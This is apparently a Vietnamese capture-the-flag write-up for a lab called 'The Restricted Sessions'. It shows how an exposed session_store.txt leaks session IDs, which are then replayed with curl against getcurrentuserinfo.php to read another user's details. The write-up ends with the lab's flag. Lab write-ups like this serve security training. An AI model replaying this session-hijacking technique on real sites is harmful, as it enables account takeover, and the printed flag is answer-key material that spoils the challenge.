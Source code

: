 I. Lý thuyết<br>

II. lap: The Restricted Sessions<br>
1. chặn truy cập và lấy đc 1 đoạn code JS<br>

![image](https://github.com/user-attachments/assets/2b8207b2-1d00-4eba-8b0e-6c509cc07ceb)<br>

```
   <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>
```

2. đặt cookie là PHPSESSID -> Session not found in data/session_store.txt<br>

![image](https://github.com/user-attachments/assets/bba92cff-aa5c-46b7-bcfa-8fe409270a7c)<br>

3. gửi yêu cầu đến data/session_store.txt để lấy list session<br>

![image](https://github.com/user-attachments/assets/b71601ca-fa74-4acb-ab14-dce4b249476b)<br>

```
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```

4. gửi cookie và session hợp lệ đến file: getcurrentuserinfo.php
```
curl --form "PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23" http://wlemk873okkfwvy0km73p97aqzqwj6zq9oj9s6z9-web.cybertalentslabs.com/getcurrentuserinfo.php
{"name":"john","email":"john@example.com","session_id":"iuqwhe23eh23kej2hd2u3h2k23"}
```

5. gửi lại yêu cầu -> UserInfo Cookie don't have the username , Validation failed <br>

![image](https://github.com/user-attachments/assets/784c24d2-fde1-41e8-87ca-8c08b38c51c6)<br>

6. bổ sung username và gửi lại request -> Flag: sessionareawesomebutifitsecure<br>

![image](https://github.com/user-attachments/assets/1d330cd9-1230-4518-9742-1f1032bdb8ae)
